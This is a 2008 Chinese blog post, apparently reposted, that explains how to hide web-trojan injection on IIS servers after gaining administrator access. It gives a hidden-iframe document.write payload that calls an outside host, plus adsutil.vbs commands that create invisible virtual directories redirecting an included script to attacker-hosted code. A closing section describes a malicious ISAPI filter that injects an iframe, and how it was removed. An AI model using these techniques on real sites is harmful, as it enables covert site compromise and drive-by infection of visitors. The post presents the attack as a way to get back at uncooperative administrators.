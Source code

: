 ```yaml
---
title: 一种奇特的挂马方式[zz]
description: 奇特的挂马方式我写这文章并不是教大家怎么跑去挂马啊，挂马是不对的！不过有的时候真的很想做些让人觉得痛快的事情，因为我就碰到很多的管理员，你跟他说服务器有问题吧！他不信，你改些东西警告他吧，他比你还勤快，你一改他马上覆盖回去，让人真的很郁闷。还有在国外的一些机器上，什么权限都拿到了也不知道他怎么弄的，什么都不让写
date: 2008-01-15 10:49:56
category: 技术文章
tags: ['技术类', '木马', '启发', '脚本Script', '安全']
post_id: 333
alias: peculiar-web-iframe-trojan
ViewNums: 4580
---
```

# 奇特的挂马方式

我写这文章并不是教大家怎么跑去挂马啊，挂马是不对的！不过有的时候真的很想做些让人觉得痛快的事情，因为我就碰到很多的管理员，你跟他说服务器有问题吧！他不信，你改些东西警告他吧，他比你还勤快，你一改他马上覆盖回去，让人真的很郁闷。还有在国外的一些机器上，什么权限都拿到了也不知道他怎么弄的，什么都不让写，好不容易写个文件没一会又改回去了，真的让人很!#$%%#%^#%^，据说就有一种软件能监视重要的文件，一旦发现更改就会给恢复过去，譬如他监视web目录的话我们就不能更改他网站的任何内容了。不过，看了很多大虾的文章，自己也略微研究了下，也总算琢磨点东西出来，不用写任何文件就可以实现将别人的页面涂改和大家经常传说的挂马等等后果，这里就给大家介绍下，那些只知道勤快的管理员也要小心了！
   大家知道，我们浏览网站的时候都是服务器将信息处理成Html方式再返回给我们，而我们要实现的是当客户访问的时候能改变他们浏览器的内容，使他隐蔽的执行我们的东西如[木马](/tags/%E6%9C%A8%E9%A9%AC)等等。比较常见的方式就是引入Frame，设置属性让他在页面不可见，或者不怕死的用javascript跳转，比较高级点的会利用原代码里的Html元素如script标记或者frame标记，然后在这些标记里引入的其他文件或者页面里做手脚，或者更改某些要在主页上显示的数据库内容，如修改数据库里的公告实现挂马。但是这些都需要在服务器的原代码里加东西或者修改网站的内容，无论是跨站还是直接修改原代码，这都是极其容易被发现的事，遇到一个勤快的管理员，你的东西就在服务器上呆不了多久了！还有就是如果一些页面是不可写的我们也很郁闷，所以有必要寻找一种更隐蔽和更[安全](/tags/%E5%AE%89%E5%85%A8)的挂马方式解决上面的问题！

我们首先去Iis管理器里看看吧！选中一个页面看看他的属性。呵呵，有个资源重定向吧！如果我们将这个页面选择重定向到我们已经控制的一个页面那么当浏览器请求这个页面的时候将会转而去访问我们定义好的那个页面，如果这个页面是网页[木马](/tags/%E6%9C%A8%E9%A9%AC)呢？很显然，访问者就会被挂马！这是很简单的方式，只需要在 IIs里更改页面的重定向就可以了！任何能接触到IIS管理器的人都能轻易做到！但是这样还有问题啊！如果管理员发现页面总被跳转，在检查网站的文件以及用备份等手段恢复还是没有解决问题的时候，他肯定会去IIS里看！一不小心看到主页面的属性就会发现哪里存在问题然后就可以改回去了！
   那么我们继续看看有没有更隐藏的方法！借助以前挂马者的方法，既然主页面很容易被发现，那么去看看主页面里的Html标记吧！如果发现有调用其他的页面就好办了！譬如里面主页里有这样的一个标记：
```html
<script src=include/mm2.js></script>
```
那么我们就有办法了，去修改include/mms2.js的属性吧！，转到我们的某个页面，内容当然要能在script标记里解释的了，如：
```javascript
document.write("<iframe style='display:none;' src=http://jnclovesw.com width=0 height=0></iframe>");
```
这样就可以引入我们的页面了！当然最好还是先实现他JS的功能！那样才够隐蔽！现在管理员会发现首页没有更改，去IIs 里看首页的属性也没有更改，甚至主机上的任何www文件都没有修改，他会很郁闷吧！呵呵！如果他只是把以前的网站备份恢复回去也是没有办法把页面改回去的！IIs文件那么多他总不能一个一个看属性吧！这里顺便提个问题，就是你选择重定向过去的文件必须是能被引用他的html标记能解释的，否则是没有效果的！譬如一个
```html
<img src=1.jpg>
```
你把1.jpg重定向到我们的木马页面是没有用的，因为木马页面没有被当成Html解析，而是送到img标签里当成图片了！我想到的能利用的标记也就是script还有frame，至于Css，我想也是能利用的，但是利用方法我还没有找到！也不知道我分析得对不对，欢迎大家指教啊！
   让我们继续吧！假设万一你的管理员够厉害或者够勤快，他发现了你在mm2.js上面做了手脚，他就会从IIs里面把他恢复过去！我们的梦想又破灭了！有没有更隐蔽的方法呢？让管理员在IIs里面都找不到呢？答案是肯定的！大家一定记得很久前的那个IIS配置漏洞，可以建立一个看不见的虚拟目录，然后在里面建立后门！我们也可以借来利用哦！看看IIS配置漏洞的原理是说建立一个没有物理目录的虚拟目录，这样就会在IIs里不可见，然后就可以在这个目录里做些小动作了！这里我们先建立一个不可见的虚拟目录，如果主页里调用了include文件夹下的js文件，我们就建立include目录吧！这可以借助IIS 的脚本实现，其中adsutil.vbs脚本是在IIs的安装目录如C:InetpubAdminScripts下的，是控制IIS行为的一个脚本，我们用到的命令如下：

```shell
cscript adsutil.vbs Create W3SVC/1/Root/www/include "IIsWebVirtualDir"
```
这样就会建立了个IIs里不可见的虚拟目录，因为没有设置路径所以不会显示哦！然后再在这个目录下建立一个名字叫做mm2.js的虚拟目录，呵呵！居然建立虚拟目录是可以用到.等特殊字符的：
```shell
cscript adsutil.vbs Create W3SVC/1/Root/www/include/mm2.js "IIsWebVirtualDir"
```
这样就存在一个include/mm2.js的虚拟目录了！想到什么了？是不是跟主页里调用的那个文件名字一直的哦！我们继续往下做！
```shell
cscript adsutil.vbs set W3SVC/1/Root/www/include/mm2.js/httpredirect "http://jnclovesw.com/mm1.js"
```
这样是更改mm2.js虚拟目录的重定向特性。注意其中的W3SVC/1/Root/www/代表IIs下的第一个web服务器的www虚拟目录，大家不清楚的话可以用adsutil.vbs的enum参数去查询自己需要更改的网站，其他的操作可以打开 adsutil.vbs脚本的帮助看看！这样操作之后就设置了虚拟目录的重定向特性，现在试着在主页里调用include/mm2.js，你猜猜返回的是 mm2.js的内容还是我们的mm1.js的内容呢？答案是mm1.js，并且物理文件还是存在的！这也许是IIS的特性吧！他首先处理用户的请求，并且虚拟目录优先于物理文件！然后我们去IIS里看看有不有include虚拟目录吧！没有吧！呵呵！这样我们就成功的饶过权限的限制和管理员的检测！将我们的木马挂到了对方的网站上，并且除非对方重做IIs或者删除我们隐藏的虚拟目录，否则他是很难清除我们的木马的！

文章很简单，关键是IIS脚本的命令和对IIs的一些认识，这种挂马方式适合于得到管理员权限之后挂马，对付那些只是勤快的管理员还是很有用的！大家以后发现网站存在问题记得要用这个脚本查看下有不有问题哦！或者干脆把IIS的设置也备份吧！遇到问题把IIs的设置也还原，呵呵！

2.全服务器被挂马 网页源文件中却找不到挂马代码
一台服务器 几乎所有网站打开网页 甚至HTML网页 都出现了
```html
<iframe src="http://xxxdfsfd/web.htm" height=0 width=0></iframe>
```
这种样式的代码 一般在头部 部分杀毒软件打开会报毒

打开HTML或ASP PHP页面 在源码中怎么也找不到这段代码

起初会怀疑是JS 找了半天还是没有发现 连新建的HTML页面 也会有这段代码～

仔细寻找 问题应该在IIS上 打开IIS 重新启动一次 在主IIS上 右键属性 ISAPI 发现一个ISAPI扩展 没见过的

路径为：c:windowshelpwanps.dll ISAP加载正常 绿色状态

取消 重新启动IIS 所有代码消失

加载项包含了三个文件：

wanps.ini内容为：
```ini
Cookie=GAG5=ABCDEFG
Redirector=C:windowshelpwanps.txt
```
wanps.txt内容为：
```html
<body>
<iframe src="[http://xxx.com/web.htm&quo...](http://xxx.com/web.htm%22) height=0 width=0></iframe>
<script language="javascript">
<!--
var expires = new Date();
expires.setTime(expires.getTime() + 5 * 24* 60 * 60 * 1000);
document.cookie="GAG5=ABCDEFG;expires="+expires.toGMTString();
-->
</script>
</body>
```
From:[樱花浪子's blog](http://www.hacklu.net)

